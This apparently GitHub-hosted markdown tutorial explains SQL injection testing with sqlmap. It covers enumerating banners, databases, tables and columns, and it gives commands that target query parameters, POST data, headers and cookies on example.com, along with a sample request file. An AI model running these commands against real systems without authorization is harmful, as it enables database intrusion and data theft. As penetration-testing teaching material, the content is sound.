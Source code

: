 ### Summary

Each command helps you gather more information about the database and its structure by exploiting SQL injection vulnerabilities:

1. **Basic SQLMap Command:** Tests the URL for SQL injection vulnerabilities.
2. **Get More Information:** Retrieves the database banner information.
3. **Enumerate Databases:** Lists all databases on the server.
4. **Enumerate Tables:** Lists all tables within a specified database.
5. **Enumerate Columns:** Lists all columns within a specified table.
   ---
   When looking for SQL injection vulnerabilities, it's important to thoroughly examine various parts of the HTTP request where user input is processed by the server. Here are the key areas to focus on:

### 1. **Query Parameters**
   - **Description:** Parameters included in the URL of GET requests.
   - **Example:** `http://example.com/product?id=1`
   - **Tool:** SQLMap command for GET request:
     ```bash
     sqlmap -u "http://example.com/product?id=1"
     ```

### 2. **POST Data**
   - **Description:** Parameters included in the body of POST requests.
   - **Example:** Form submissions, API requests.
   - **Tool:** Capture the POST request with tools like Burp Suite or your browser's developer tools, then use SQLMap:
By default, SQLMap will attempt to test all parameters for SQL injection.
If you only want SQLMap to test a specific parameter, you can use the **-p option to specify the parameter.
     ```bash
     sqlmap -u "http://example.com/login" --data="username=admin&password=admin"
     sqlmap -u "http://example.com/login" --data="username=admin&password=admin" -p "username"
```
     ```bash
     sqlmap -r request.txt
     ```
   - **Sample request.txt:**
     ```
     POST /login HTTP/1.1
     Host: example.com
     Content-Type: application/x-www-form-urlencoded
     Content-Length: 32

     username=admin&password=admin
     ```

### 3. **HTTP Headers**
   - **Description:** Headers sent with HTTP requests, such as `User-Agent`, `Referer`, `X-Forwarded-For`, etc.
   - **Example:** Custom headers set by the application or by the client.
   - **Tool:** Use SQLMap to specify headers:
     ```bash
     sqlmap -u "http://example.com/product?id=1" --headers="User-Agent: sqlmap"
     ```

### 4. **Cookies**
   - **Description:** Cookies sent by the client to the server, often used to maintain sessions or store preferences.
   - **Example:** `Cookie: sessionId=abcd1234`
   - **Tool:** Use SQLMap to specify cookies:
     ```bash
     sqlmap -u "http://example.com/product?id=1" --cookie="sessionId=abcd1234"
```